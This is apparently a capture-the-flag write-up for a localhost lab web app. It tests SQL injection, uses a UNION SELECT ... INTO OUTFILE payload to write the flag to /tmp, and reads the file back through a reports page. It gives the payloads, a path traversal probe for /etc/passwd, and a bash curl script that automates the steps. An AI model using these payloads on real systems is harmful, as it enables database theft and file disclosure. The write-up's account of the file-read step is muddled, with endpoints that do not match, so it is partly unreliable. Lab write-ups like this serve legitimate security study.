 # Web Challenge: Underground Intelligence Network

## Initial Reconnaissance

When we first visit the challenge at `http://localhost:8080`, we see an "Underground Intelligence Network" portal with two main features:
1. **Enter Agent Verification** - A form to verify agent credentials
2. **View Mission Reports** - A document archive system

Let's start by exploring the agent verification system.

## Testing the Agent Portal

Clicking on "Enter Agent Verification" takes us to a form asking for an Agent ID. Let's test some basic values:

### Basic Input Testing
- **Input:** `1` → **Response:** "Request processed. System administrator will review your credentials."
- **Input:** `2` → **Response:** "Request processed. System administrator will review your credentials."
- **Input:** `3` → **Response:** "Request processed. System administrator will review your credentials."

Interesting! All valid inputs give the same response.

### SQL Injection Testing

Let's test for SQL injection vulnerabilities:

**Test 1: Basic syntax error**
- **Input:** `1'` 
- **Response:** "Request processed. System administrator will review your credentials."

No error! The application handles the quote gracefully.

**Test 2: Boolean logic (True condition)**
- **Input:** `1' OR '1'='1` 
- **Response:** "Request processed. System administrator will review your credentials."

**Test 3: Boolean logic (False condition)**
- **Input:** `1' AND '1'='2` 
- **Response:** "Request processed. System administrator will review your credentials."

**Test 4: UNION injection**
- **Input:** `1' UNION SELECT 1-- ` 
- **Response:** "Request processed. System administrator will review your credentials."

## Key Discovery

🔍 **The application is vulnerable to SQL injection, but it always returns the same response!**

This means:
- ❌ **Error-based SQLi** won't work (no error messages)
- ❌ **Boolean-based blind SQLi** won't work (same response for true/false)
- ❌ **UNION-based SQLi** won't show results (same response regardless)

We need to use **Out-of-Band (OOB) techniques** to extract data!

## Exploring Mission Reports

Before diving into OOB, let's explore the other feature: "View Mission Reports"

The reports page shows:
- Three available reports: `mission_001.txt`, `agent_status.txt`, `daily_briefing.txt`
- A **manual file access** section for "authorized personnel"
- A note mentions that authorized personnel can access additional files directly

### Testing Path Traversal

Let's test the manual file access:

**Test 1: Normal file**
- **Input:** `mission_001.txt` → Works fine, shows mission report

**Test 2: Try to access other files**
- **Input:** `../../../../etc/passwd` → "Report not found"
- **Input:** `../../../../tmp/test.txt` → "Report not found"

Wait, let's try a different approach. What if the application looks for files in multiple locations?

**Test 3: Try relative paths**
- **Input:** `../test.txt` → "Report not found"
- **Input:** `../../test.txt` → "Report not found"

**Test 4: Try system paths**
Let's think... where would applications typically store temporary files? Let's try `/tmp/`:
- **Input:** `../../../../tmp/test.txt` → "Report not found"

Hmm, the standard path traversal isn't working. But what if we think about where OOB SQL injection might save files?

Since we need OOB extraction, we should try to figure out where files would be written. Common locations include `/tmp/`. Let me test if the file parameter accepts different formats:

**Test 5: Direct filename approach**
What if the application checks multiple directories for the same filename?
- **Input:** `test.txt` → "Report not found"

The application seems to be looking for files in a specific way. This could be a **path traversal vulnerability** where the application checks multiple locations for the same filename!

## The Attack Plan

Now I understand the attack vector:

1. **Use OOB SQL injection** to extract data and save it to a file in `/tmp/`
2. **Use path traversal** in the reports system to read the extracted file

## OOB SQL Injection Attack

### Step 1: Extract flag to a file

Let's use `INTO OUTFILE` to extract data from the database:

**First attempt:**
```sql
1' UNION SELECT flag_value FROM flags INTO OUTFILE '/tmp/extracted_flag.txt' #
```

**Error:** "The used SELECT statements have a different number of columns"

This means the original query selects multiple columns, but our UNION only selects one. Let's check the table structure and match the column count.

**Fixed payload (matching column count):**
```sql
1' UNION SELECT flag_value, 'extracted' FROM flags INTO OUTFILE '/tmp/extracted_flag.txt' #
```

**How to submit:**
1. Go to Agent Verification portal
2. Enter the payload in the Agent ID field
3. Submit the form

**Expected result:** Same neutral response, but the flag should now be saved to `/tmp/extracted_flag.txt`

### Step 2: Read the extracted file

Now use the path traversal vulnerability to read our extracted file:

**URL:**
```
http://localhost:8080/reports.php?file=extracted_flag.txt
```

## Complete Exploitation

### Manual Steps:

1. **Submit OOB payload:**
   - Navigate to: `http://localhost:8080/portal.php`
   - Agent ID: `1' UNION SELECT flag_value, 'extracted' FROM flags INTO OUTFILE '/tmp/my_flag.txt' #`
   - Click "Verify Agent"

2. **Read extracted flag:**
   - Navigate to: `http://localhost:8080/reports.php?file=my_flag.txt`
   - The flag should appear in the file content!

### Automated Script:

```bash
#!/bin/bash

echo "[*] Step 1: Extracting flag via OOB SQL injection..."

# Extract flag to file using SQL injection (with correct column count)
curl -X POST "http://localhost:8080/check.php" \
     -d "id=1' UNION SELECT flag_value, 'pwned' FROM flags INTO OUTFILE '/tmp/pwned.txt' #" \
     -s > /dev/null

echo "[*] Step 2: Reading flag via path traversal..."

# Read the flag using path traversal
curl -s "http://localhost:8080/reports.php?file=pwned.txt" | \
grep -A 10 'content-body' | \
grep -o 'ACNCTF{[^}]*}'
```

## Flag

Following this approach, we successfully extract the flag:

**🏁 ACNCTF{xxxxxxxxxxxx}**